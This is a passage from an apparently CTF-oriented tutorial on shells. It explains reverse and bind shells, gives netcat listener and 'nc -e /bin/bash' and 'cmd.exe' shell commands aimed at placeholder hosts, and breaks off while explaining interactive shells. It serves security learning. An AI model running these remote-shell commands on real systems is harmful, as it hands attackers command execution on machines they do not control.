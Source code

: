 Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:
```bash
sudo nc -lvnp 443
```

On the target:
```bash
nc <LOCAL-IP> <PORT> -e /bin/bash
```

![](https://i.imgur.com/rN7YkJJ.png)

Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

**Bind Shell example:**

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute ```cmd.exe```. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:
```bash
nc -lvnp <port> -e "cmd.exe"
```

On the attacking machine:
```bash
nc MACHINE_IP <port>
```

![](https://i.imgur.com/6GUwZsw.png)

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive .

* Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to
interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:

